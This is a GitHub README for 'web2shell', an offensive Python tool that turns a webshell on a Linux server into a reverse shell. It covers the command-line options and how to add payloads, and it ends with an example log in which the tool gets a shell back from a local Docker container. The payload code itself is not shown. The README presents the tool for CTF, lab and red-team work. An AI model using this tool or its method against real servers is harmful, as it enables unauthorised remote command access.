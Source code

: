 # web2shell

A Python program used to automate converting webshells into reverse shells. If you regularly do CTF, HTB, or red teaming you've probably spent a good chunk of time testing payloads to convert a webshell into a reverse shell. This tool aims to simplify this process.

Credit for the reverse shells goes to [PayloadAllTheThings.](https://github.com/swisskyrepo/PayloadsAllTheThings)

## Usage

```
usage: web2shell [-h] [-i INTERFACE] [--force] [--ip IP] [--port PORT] [--nc NC] url

Automate converting webshells into reverse shells.

positional arguments:
  url                   webshell URL, replace the provided command with "SHELL". ex: https://example.com/shell.php?cmd=SHELL

options:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        the interface to use when listening for a remote shell. Default is localhost.
  --force               force command execution even if initial check is invalid
  --ip IP               IP address of your own listener (skips listener setup if both IP and port are set)
  --port PORT           port of your own listener
  --nc NC               path to local nc binary
```

The only **required** flag is the `url.`

Please note: this program currently is only intended to be used on and against Linux machines.

## Requirements

Install the required python modules with pip (`pip3 install -r requirements.txt`.) You will need a local copy of `nc`. The program will attempt to find it automatically. If it can't, please specify the path with the `--nc` flag.

## Adding New Payloads

The included payloads have all been tested on a simple webshell and work. If you'd like to add more, please feel free.

- Edit the `data/payloads.py` file.
- Add a new object to the `payloads` dict. The `key` should be the name of the bin, and the value should be a `list` object of payloads.
- Replace all instances of the reverse `IP` with `IPHERE`, the port with `PORTHERE`, and the binary name with `PATHHERE`.

## Example

Example execution on local Docker image (see `demo/README.md`)

```
[evan@ejedev web2shell]$ python3 web2shell.py  --url http://127.0.0.1:8080/cmd.php?cmd=SHELL --interface docker0

               o                  o           o  o
               O     .oOOo.       O           O  O
               O          O       o           o  o
               o          o       O           O  O
'o     O .oOo. OoOo.     O' .oOo  OoOo. .oOo. o  o
 O  o  o OooO' O   o    O   `Ooo. o   o OooO' O  O
 o  O  O O     o   O  .O        O o   O O     o  o
 `Oo'oO' `OoO' `OoO' oOoOoO `OoO' O   o `OoO' Oo Oo
---------------------------------------------------
                      @ejedev

Verifying commands can be executed...
Available interfaces...
[-] lo
[-] enp4s0
[-] docker0
[-] br-7436527ee366
[-] br-aa3534e13396
[-] br-c7551daa06d2
[-] veth87ee241
docker0 selected. Address to use is 172.17.0.1
Testing ports...
[-] 1025 available!
Finding local nc binary...
nc target at /usr/bin/nc
Final connection string will be 172.17.0.1:1025...
Finding bins...
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1025
Ncat: Listening on 0.0.0.0:1025
[-] perl found at /usr/bin/perl
[-] perl found at /usr/bin/perl5.32-x86_64-linux-gnu
[-] php found at /usr/local/bin/php
[-] python found at /usr/bin/python3.9
Executing reverse shell...
Bins to test: 4
[!] Attempting perl payloads for path /usr/bin/perl
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:54256.
$
```
